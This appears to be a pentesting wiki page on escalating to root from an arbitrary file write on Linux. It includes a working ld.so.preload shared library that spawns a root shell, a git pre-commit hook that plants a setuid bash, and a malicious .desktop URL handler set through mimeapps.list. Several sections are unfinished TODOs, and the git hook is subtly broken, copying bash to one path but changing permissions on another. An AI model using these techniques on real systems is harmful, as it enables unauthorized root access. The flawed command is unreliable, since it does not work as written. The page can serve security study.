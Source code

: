 # Arbitrary File Write to Root


### /etc/ld.so.preload

This file behaves like **`LD_PRELOAD`** env variable but it also works in **SUID binaries**.\
If you can create it or modify it, you can just add a **path to a library that will be loaded** with each executed binary.

For example: `echo "/tmp/pe.so" > /etc/ld.so.preload`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unlink("/etc/ld.so.preload");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
//cd /tmp
//gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```
```
### Git hooks

[[https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks|**Git hooks**]] are **scripts** that are **run** on various **events** in a git repository like when a commit is created, a merge... So if a **privileged script or user** is performing this actions frequently and it's possible to **write in the `.git` folder**, this can be used to **privesc**.

For example, It's possible to **generate a script** in a git repo in **`.git/hooks`** so it's always executed when a new commit is created:

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/b' > pre-commit
chmod +x pre-commit
```
```
### Cron & Time files

TODO

### Service & Socket files

TODO

### binfmt_misc

The file located in `/proc/sys/fs/binfmt_misc` indicates which binary should execute whic type of files. TODO: check the requirements to abuse this to execute a rev shell when a common file type is open.

### Overwrite schema handlers (like http: or https:)

An attacker with write permissions to a victim's configuration directories can easily replace or create files that change system behavior, resulting in unintended code execution. By modifying the `$HOME/.config/mimeapps.list` file to point HTTP and HTTPS URL handlers to a malicious file (e.g., setting `x-scheme-handler/http=evil.desktop`), the attacker ensures that **clicking any http or https link triggers code specified in that `evil.desktop` file**. For example, after placing the following malicious code in `evil.desktop` in `$HOME/.local/share/applications`, any external URL click runs the embedded command:

```bash
[Desktop Entry]
Exec=sh -c 'zenity --info --title="$(uname -n)" --text="$(id)"'
Type=Application
Name=Evil Desktop Entry
```
```
For more info check [[https://chatgpt.com/c/67fac01f-0214-8006-9db3-19c40e45ee49|**this post**]] where it was used to exploit a real vulnerability.



